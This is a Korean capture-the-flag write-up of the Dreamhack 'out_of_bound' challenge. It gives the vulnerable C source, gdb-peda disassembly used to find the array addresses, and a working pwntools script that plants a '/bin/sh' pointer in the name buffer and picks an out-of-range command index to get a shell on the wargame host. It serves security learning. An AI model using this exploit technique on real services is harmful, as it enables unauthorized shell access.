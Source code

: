 out_of_bound
===

# Description

> 이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.
> “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.

# Source code

~~~
\#include <stdio.h>
\#include <stdlib.h>
\#include <signalA.h>
\#include <unistd.h>
\#include <string.h>
char name[16];
char *command[10] = { "cat",
"ls",
"id",
"ps",
"file ./oob" };
void alarm_handler()
{
puts("TIME OUT");
exit(-1);
}
void initialize()
{
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);
signal(SIGALRM, alarm_handler);
alarm(30);
}
int main()
{
int idx;
initialize();
printf("Admin name: ");
read(0, name, sizeof(name));
printf("What do you want?: ");
scanf("%d", &idx);
system(command[idx]);
return 0;
}
~~~

system이라는 명령어 에서는 안에있는 명령어를 실행한다. command는 index를 확인하지 않기 때문에 이를 이용한다. 그런데 command는 포인터 이므로 포인터를 이용해야 한다. 따라서 name[0]~name[3]은 name[4]의 주솟값을 넣고, name[4]에 /bin/sh를 넣는다. command의 index를 이용해 이 코드가 실행되도록 한다. 

# Result

~~~ 
Dump of assembler code for function main:
0x080486cb <+0>:	lea    ecx,[esp+0x4]
0x080486cf <+4>:	and    esp,0xfffffff0
0x080486d2 <+7>:	push   DWORD PTR [ecx-0x4]
0x080486d5 <+10>:	push   ebp
0x080486d6 <+11>:	mov    ebp,esp
0x080486d8 <+13>:	push   ecx
0x080486d9 <+14>:	sub    esp,0x14
0x080486dc <+17>:	mov    eax,gs:0x14
0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
0x080486e5 <+26>:	xor    eax,eax
0x080486e7 <+28>:	call   0x804867b <initialize>
0x080486ec <+33>:	sub    esp,0xc
0x080486ef <+36>:	push   0x8048811
0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
0x080486f9 <+46>:	add    esp,0x10
0x080486fc <+49>:	sub    esp,0x4
0x080486ff <+52>:	push   0x10
0x08048701 <+54>:	push   0x804a0ac
0x08048706 <+59>:	push   0x0
0x08048708 <+61>:	call   0x80484a0 <read@plt>
0x0804870d <+66>:	add    esp,0x10
0x08048710 <+69>:	sub    esp,0xc
0x08048713 <+72>:	push   0x804881e
0x08048718 <+77>:	call   0x80484b0 <printf@plt>
0x0804871d <+82>:	add    esp,0x10
0x08048720 <+85>:	sub    esp,0x8
0x08048723 <+88>:	lea    eax,[ebp-0x10]
0x08048726 <+91>:	push   eax
0x08048727 <+92>:	push   0x8048832
0x0804872c <+97>:	call   0x8048540 <__scanf@plt>
0x08048731 <+102>:	add    esp,0x10
0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
0x0804873e <+115>:	sub    esp,0xc
0x08048741 <+118>:	push   eax
0x08048742 <+119>:	call   0x8048500 <system@plt>
0x08048747 <+124>:	add    esp,0x10
0x0804874a <+127>:	mov    eax,0x0
0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
0x08048759 <+142>:	je     0x8048760 <main+149>
0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
0x08048763 <+152>:	leave  
0x08048764 <+153>:	lea    esp,[ecx-0x4]
0x08048767 <+156>:	ret 
~~~

소스코드는 다음과 같다. 입력이 되는 61번 read와 system의 119번을 보고 name과 commend의 주솟값을 알아보겠다.

~~~
gdb-peda$ x 0x804a0ac
0x804a0ac <name>:	0x00000000
~~~

read의 인자로 받는 0x804a0ac가 바로 name이다.

~~~
gdb-peda$ x 0x804a060
0x804a060 <command>:	0x080487f0
~~~

system의 인자로 받는 0x804a060가 command이다.

~~~ 
gdb-peda$ x/s 0x080487f0
0x80487f0:	"cat"
~~~

command는 포인터 배열이기 때문에 이것이 가리키고 있는 0x080487f0은 문자열로 표현하면 첫번째 원소인 cat이다.

~~~
0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
0x0804873e <+115>:	sub    esp,0xc
0x08048741 <+118>:	push   eax
0x08048742 <+119>:	call   0x8048500 <system@plt>
~~~

포인터의 크기가 4byte인 것을 이용해 eax에 index를 넣고 그만큼 곱한다. 이때 eax는 ebp-0x10이다.

~~~
0x08048723 <+88>:	lea    eax,[ebp-0x10]
0x08048726 <+91>:	push   eax
0x08048727 <+92>:	push   0x8048832
0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
~~~

ebp-0x10은 eax를 통해 scanf로 들어간다. 따라서 ebp-0x10이 가리키고 있는 값이 idx이다.

그런데 0x8048832이 idx라고 생각할 수도 있다.

~~~
gdb-peda$ x 0x8048832
0x8048832:	Cannot access memory at address 0x8048835
gdb-peda$ x/s 0x8048832
0x8048832:	"%d"
~~~

0x8048832는 %d이므로 ebp-0x10이 idx임이 확실하다.

~~~
from pwn import *

p=remote("host1.dreamhack.games",8257)
payload=p32(0x804a0b0)
payload+="/bin/sh"
p.recvuntil(": ")
p.sendline(payload)
p.recvuntil(": ")
p.sendline("19")
p.interactive()
~~~

out_of_bound를 공격하기 위한 코드는 다음과 같다.

# Learned

> gdb-peda를 이용하면 함수에 들어가는 인자를 알 수 있다.
>
> remote(주소,포트)를 통해 원격 저장소에 연결 할 수 있다.
>
> prcess(파일주소)를 통해 local에 있는 파일에 연결할 수 있다.
>
> p32는 32bit little endian으로 packing해준다. 64bit은 p64를 이용한다.
>
> recvuntil은 주어진 문자열이 나올 때 까지 받는다.
>
> sendline은 주어진 문자열을 보낸다.
>
> interactive는 연결된 곳에 상호작용 할 수 있게 한다.

~~~

~~~